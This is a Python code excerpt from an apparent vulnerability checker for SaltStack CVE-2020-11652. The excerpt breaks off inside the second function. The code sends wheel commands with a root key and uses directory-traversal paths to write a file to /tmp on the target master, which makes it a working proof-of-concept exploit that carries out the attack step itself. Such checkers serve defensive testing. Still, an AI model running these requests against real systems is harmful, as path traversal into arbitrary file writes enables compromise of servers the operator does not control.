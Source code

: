 ```python

def check_CVE_2020_11652_write1(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write1)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'file_roots.write',
    'path': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'data': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)

    pp(rets)
    if rets['data']['return'].startswith('Wrote'):
      try:
        os.remove('/tmp/salt_CVE_2020_11652')
      except OSError:
        print("Maybe?")
      else:
        print("YES")
    else:
      print("NO")

def check_CVE_2020_11652_write2(debug, channel, root_key):
  print("[+] Checking if vulnerable to CVE-2020-11652 (write2)... ", end='')
  sys.stdout.flush()

  # try read file
  msg = {
    'key': root_key,
    'cmd': 'wheel',
    'fun': 'config.update_config',
    'file_name': '../../../../../../../../tmp/salt_CVE_2020_11652',
    'yaml_contents': 'evil',
    'saltenv': 'base',
  }

  try:
    rets = channel.send(msg, timeout=3)
  except salt.exceptions.SaltReqTimeoutError:
    print("TIMEOUT")
  except:
    print("ERROR")
    raise
  else:
    if debug:
      print()
      print(rets)
```